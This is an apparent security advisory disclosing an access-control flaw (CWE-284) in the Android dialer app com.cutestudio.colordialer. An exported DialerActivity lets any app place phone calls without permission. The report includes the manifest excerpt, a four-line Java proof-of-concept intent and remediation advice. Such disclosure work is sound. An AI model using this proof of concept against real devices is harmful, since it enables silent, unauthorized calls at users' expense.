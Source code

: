  ** Note: This remains unpatched as of ver. 2.2.1 **
---

## Vulnerability Report

- **Application**: `com.cutestudio.colordialer` Version: 2.1.8-2 (220)
- **Component**: `com.cutestudio.dialer.activities.DialerActivity`
- **Vulnerability Type**: `CWE-284: Improper Access Control`
- **Associated Risks**: Unauthorized phone calls without user interaction or any permission

  ![image](https://github.com/actuator/com.cutestudio.colordialer/assets/78701239/ae184ca4-18a8-49bb-8ca1-ed6299e10cb0)


### Description:

The `com.cutestudio.dialer.activities.DialerActivity` component of the `com.cutestudio.colordialer` application is improperly exported, allowing any third-party application to send intents to it. This oversight results in a potential risk where unauthorized phone calls can be initiated without user consent or interaction.

### Proof of Concept:

A third-party application can craft an intent targeting `com.cutestudio.dialer.activities.DialerActivity` using the `android.intent.action.CALL` action paired with a `tel:` URI, thereby placing a phone call. The exported nature of this activity lacks any verification to authenticate the origin of the intent, leading to possible misuse.

### Code Samples:

1. **Manifest declaration in 'com.cutestudio.colordialer':**

```xml
<activity 
    android:theme="@style/Theme.Transparent" 
    android:label="@string/dialer" 
    android:name="com.cutestudio.dialer.activities.DialerActivity" 
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="tel"/>
    </intent-filter>
</activity>
```

2. **Proof of Concept using 'com.example.d3m0':**

```java
Intent dialerIntent = new Intent("android.intent.action.CALL");
dialerIntent.setComponent(new ComponentName("com.cutestudio.colordialer", "com.cutestudio.dialer.activities.DialerActivity"));
dialerIntent.setData(Uri.parse("tel:+1234567890"));
startActivity(dialerIntent);
```

![Demonstration](https://github.com/actuator/com.cutestudio.colordialer/blob/main/dial.gif)

### Recommendations:

1. Reevaluate the `android:exported` attribute of the `DialerActivity`. If there's no strict requirement for this activity to be exposed, it is advisable to set `android:exported="false"` in the AndroidManifest.xml.
2. Should there be a necessity to maintain the exported status, a stringent intent verification mechanism should be established to guarantee that only authenticated or trusted intents access the activity.

---
